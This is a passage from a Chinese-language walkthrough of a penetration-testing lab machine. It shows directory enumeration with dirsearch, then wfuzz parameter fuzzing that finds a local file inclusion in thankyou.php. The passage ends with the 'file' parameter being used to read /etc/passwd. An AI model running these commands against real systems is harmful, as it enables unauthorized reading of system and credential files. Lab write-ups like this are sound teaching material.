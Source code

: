     ```python
    dirsearch -u 192.168.75.175 -x 403
    //
    [13:40:35] Starting:
    [13:40:56] 200 -    4KB - /contact.php
    [13:40:56] 301 -  184B  - /css  ->  http://192.168.75.175/css/
    [13:41:00] 200 -    6KB - /faq.php
    [13:41:01] 200 -   17B  - /footer.php
    [13:41:03] 301 -  184B  - /images  ->  http://192.168.75.175/images/
    [13:41:25] 200 -  852B  - /thankyou.php
    ```
    
3. 我们看官网下的小提示：这个特定的入口点可能很难识别，但它确实存在。您需要寻找一些不寻常的东西（刷新页面时会发生变化的东西），我们可以注意到每次提交`footer`页面的年份就会不一样
    
    ![image.png](image%2032.png)
    
    可能入口就存在页脚里
    
4. 访问`/footer.php` ，一直刷新年份也会变，所以就是`thankyou`页面包含了`footer.php` ,可能存在参数来包含`footer.php` ,使用`wfuzz`来尝试混淆出参数
    
    ```python
    # 尝试包含 /etc/passwd
    wfuzz -c -w /usr/share/wfuzz/wordlist/general/big.txt --hh 851 'http://192.168.75.175/thankyou.php?FUZZ=/etc/passwd'
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://192.168.75.175/thankyou.php?FUZZ=/etc/passwd
    Total requests: 3024
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000001053:   200        70 L     104 W      2319 Ch     "file"
    
    ```
    
    混淆出参数`file` ，可能就是使用`file` 参数来包含文件的，成功包含`/etc/passwd`
    
    ![image.png](image%2033.png)
    